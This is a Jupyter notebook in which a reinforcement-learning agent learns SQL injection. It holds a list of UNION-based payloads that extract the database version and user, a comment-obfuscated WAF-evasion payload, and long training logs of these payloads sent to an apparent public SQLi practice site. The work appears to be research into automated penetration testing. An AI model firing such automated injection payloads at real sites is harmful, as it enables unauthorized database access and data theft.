In [1]:
import numpy as np
import matplotlib.pyplot as plt
from scipy.signal import savgol_filter as SGfilter
from IPython.display import clear_output
import datetime
import joblib
from tqdm import tqdm
import requests
from bs4 import BeautifulSoup

import const
import utilities as ut
import mockSQLenv as SQLenv
import agent as agn

In [10]:
env = SQLenv.mockSQLenv(verbose=True, data_reward = 10, syntax_reward = -5, differ_col_reward = -1, query_reward = -2, waf_block=-20)

In [11]:
agt = agn.Agent(const.actions)
agt.set_learning_options(exploration=0.6, 
                         learningrate=0.1, 
                         discount=0.9, max_step = 100)
print(agt.Q)
print(agt.actions_list)
print(agt.total_successes, "/", agt.total_trials)

{(): array([1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1.,
       1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1.,
       1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1.,
       1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1.,
       1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1., 1.,
       1., 1., 1., 1., 1., 1.])}
[" 'union select 1--", " 'union select 1,2--", " 'union select 1,2,3--", " 'union select 1,2,3,4--", " 'union select 1,2,3,4,5--", " 'union select version(),user() --", " 'union select version(),user(),3 --", " 'union select version(),user(),3,4 --", " 'union select version(),user(),3,4,5 --", " 'union select 1,version() --", " 'union select 1,version(),3 --", " 'union select 1,version(),3,4 --", " 'union select 1,version(),3,4,5 --", " 'union select 1,user() --", " 'union select 1,user(),3 --", " 'union select 1,user(),3,4 --", " 'union select 1,user(),3,4,5 --", " ' and 1=2 unio

In [15]:
agt.reset(env)
agt.run_episode()

 union select 1,user() --
WAF block sqli payload. Server respone 5
 and 1=2 union select 1,2--
WAF block sqli payload. Server respone 5
 'union select 1--
WAF block sqli payload. Server respone 5
 'union select 1--
WAF block sqli payload. Server respone 5
 union select 1,2,3--
WAF block sqli payload. Server respone 5
 'union select 1--
WAF block sqli payload. Server respone 5
 'union select 1,2--
WAF block sqli payload. Server respone 5
 ' and 1=2 union select version(),user(),3,4,5 --
WAF block sqli payload. Server respone 5
 'union select 1--
WAF block sqli payload. Server respone 5
bmw%27Union/**/Select/**/*/**/FROM/**/(Select/**/CONVERT(user()/**/USING/**/utf8mb3))a/**/join/**/(Select/**/VARIABLE_VALUE/**/FROM/**/performance_schema.global_status/**/WHERE/**/VARIABLE_NAME/**/=/**/0x76657273696f6e)b/**/join/**/(Select/**/3)c%23
Syntax error. Server response 3
 and 1=2 union select 1,2,3--
WAF block sqli payload. Server respone 5
 'union select 1--
WAF block sqli payload. Server respo

False

In [7]:
agt.Q

{(): array([1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  ,
        1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  ,
        1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  ,
        1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  ,
        1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  ,
        1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  ,
        1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  ,
        1.  , 0.49, 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  , 1.  ,
        1.  , 1.  , 1.  ]),
 (-79,): array([-0.01,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,
         1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,
         1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,
         1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,
         1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,  1.  ,
         1.  

In [8]:
print(ut.getdictshape(agt.Q))

(9, (91,))


In [9]:
print(agt.steps)

14


In [8]:
nepisodes = 10**6

agt = agn.Agent(const.actions,verbose=True)
agt.set_learning_options(exploration=0.6, 
                         learningrate=0.1, 
                         discount=0.9, max_step = 1000)

steps = []; rewards = []; states = []
for _ in tqdm(range(nepisodes)):
    env = SQLenv.mockSQLenv(verbose=False, data_reward = 10, syntax_reward = -5, differ_col_reward = -1, query_reward = -2, waf_block= -10)
    
    agt.reset(env)
    agt.run_episode()
    
    steps.append(agt.steps)
    rewards.append(agt.rewards)
    states.append(ut.getdictshape(agt.Q)[0]) 

  0%|          | 0/1000000 [00:00<?, ?it/s]

Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
http

  0%|          | 1/1000000 [00:05<1520:48:25,  5.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select

  0%|          | 2/1000000 [00:10<1516:19:28,  5.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sel

  0%|          | 3/1000000 [00:42<4793:28:10, 17.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.al

  0%|          | 4/1000000 [02:25<14241:22:01, 51.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 5/1000000 [02:28<9395:54:20, 33.83s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 

  0%|          | 6/1000000 [02:51<8404:05:46, 30.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 7/1000000 [02:57<6197:29:02, 22.31s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union sele

  0%|          | 8/1000000 [03:02<4680:53:45, 16.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/

  0%|          | 9/1000000 [05:40<16927:43:45, 60.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 10/1000000 [05:43<11926:30:47, 42.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 

  0%|          | 11/1000000 [06:39<13069:47:13, 47.05s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2-

  0%|          | 12/1000000 [06:55<10415:26:50, 37.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1

  0%|          | 13/1000000 [10:36<25847:14:53, 93.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,

  0%|          | 14/1000000 [11:30<22553:41:09, 81.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user()

  0%|          | 15/1000000 [11:44<16936:52:10, 60.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server res

  0%|          | 16/1000000 [12:26<15372:56:20, 55.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 

  0%|          | 17/1000000 [13:07<14209:30:09, 51.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'uni

  0%|          | 18/1000000 [13:46<13129:44:50, 47.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server r

  0%|          | 19/1000000 [14:21<12133:11:36, 43.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Not

  0%|          | 20/1000000 [14:50<10909:41:09, 39.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(

  0%|          | 21/1000000 [15:08<9124:17:19, 32.85s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server r

  0%|          | 22/1000000 [15:41<9185:18:26, 33.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server r

  0%|          | 23/1000000 [17:00<13015:18:02, 46.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 unio

  0%|          | 24/1000000 [17:27<11349:03:49, 40.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union s

  0%|          | 25/1000000 [17:56<10293:19:45, 37.06s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.alterv

  0%|          | 26/1000000 [19:07<13195:24:40, 47.50s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union

  0%|          | 27/1000000 [19:24<10659:16:40, 38.37s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
